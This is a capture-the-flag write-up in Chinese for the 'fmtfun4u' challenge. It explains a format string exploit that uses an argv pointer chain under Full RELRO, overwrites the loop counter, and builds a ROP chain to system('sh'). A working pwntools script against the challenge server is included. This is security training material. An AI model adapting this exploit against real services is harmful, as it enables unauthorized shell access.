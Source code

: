 ## fmtfun4u
### solution
本題有format string漏洞可以使用，由於buffer不在stack上，而因為題目設計導致main不會return，因此無法使用rbp chain，必須使用argv chain來exploit。

本題開啟了Full RELRO，因此無法改寫got，必須考慮return to libc等方式，首先透過leak stack上的`argv`和`__libc_start_main+240`我們可以輕鬆拿到stack和libc的位置，接著就是決定要改寫哪個return pointer，由於main不會return，基本上只能利用printf內的return，有在`.text`的`printf->main`、在libc的`vfprintf->printf`等等可以利用。

由於時間限制，在改寫printf內的return address時，基本上最多只能一次改寫到後兩個byte，因此只能跳到原address附近的目標，又因為libc在`printf`附近沒有什麼gadget可以使用，因此先不考慮。

在binary中，main下方的`__libc_csu_init`正好有`pop rdi; ret`的gadget可以作為`system`的參數，因此可以選擇此處，接下來的問題就是如何將ROP chain(`&"sh\x00"`, `system`)寫到stack上。

原本透過`argv`即可辦到任意寫，但是迴圈只會執行4次，不足以將ROP chain全部寫到stack上，不過恰好conuter `i`在`rbp-0x4`的位址，因此我們可以一開始就先把`i`寫為更大的值，如此就有足夠的次數來寫ROP chain，而`i`的位址剛好會和ROP chain中的`system`位址前16bytes有重疊，因此最後必須根據算出的`system`位址來決定i的值(因為是0x7fxx，次數一定夠寫)，才能成功跳到`system`。

當把ROP chain都寫到stack上後，改寫`printf->main`使其跳到`pop rdi; ret`即可。

步驟整理如下：
1. leak stack & libc
2. 計算需要的gadget及要改寫的變數位址(`system`, `&"sh\x00"`, `i`, `printf->main`, 寫入`rdi`的slot，寫入`system`的slot)
3. 透過`argv`將`i`改寫為`system >> 32`(前16bytes) + 後面總共input的次數
4. 透過`argv`將`&"sh\x00"`寫到stack(rdi slot)上
5. 透過`argv`將`system`(後32bytes)寫到stack上
6. 透過`argv`將`printf->main`改為`pop rdi; ret`

### script
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')

#r = process("fmtfun4u")
r = remote('csie.ctf.tw', 10136)

binary = ELF('fmtfun4u')
rop = ROP(binary)
libc = ELF('libc.so.6')

def fmt(target, idx, size):
    if size == "hn":
        target &= 0xffff
    elif size == "hhn":
        target &= 0xff
    elif size == "n":
        target &= 0xffffffff
    return b"%%%dc%%%d$" % (target, idx) + size.encode()

def send(payload):
    r.recvuntil(":")
    r.sendline(payload)

# %9$p         | __libc_start_main+240, offset = 0x20830
# %11$p        | &argv
# %37$p        | argv = &argv - 0xd0
#--------------------stack-----------ROP-----
# argv - 0x100 | printf_return | pop rdi; ret
# argv - 0xf8  |               | &"sh\x00"
# argv - 0xf0  |               | system()

# leak libc & argv
send(b"%9$p %11$p")
r.recvuntil("0x")
libc_base = int(r.recv(12), 16) - 0x20830
r.recvuntil("0x")
argv = int(r.recv(12), 16)

# compute needed addresses
sh = libc_base + next(libc.search("sh\x00"))
system = libc_base + libc.symbols[b'system']

printf_return = argv - 0x100
rdi_slot = printf_return + 0x8
system_slot = printf_return + 0x10
i = argv - 0xec
pop_rdi = rop.rdi.address

# argv -> i = system[32..48] + 12
send(fmt(i, 11, "hn"))
send(fmt(((system >> 32) + 12), 37, "hn"))

# argv -> rdi_slot = sh[0..48]
for idx in range(3):
    send(fmt(rdi_slot + 0x2 * idx, 11, "hn"))
    send(fmt(sh >> 16 * idx, 37, "hn"))

# argv -> system_slot = system[0..32]
for idx in range(2):
    send(fmt(system_slot + 0x2 * idx, 11, "hn"))
    send(fmt(system >> 16 * idx, 37, "hn"))

# argv -> printf_return = pop_rdi
send(fmt(printf_return, 11, "hn"))
send(fmt(pop_rdi, 37, "hhn"))

r.interactive()
```
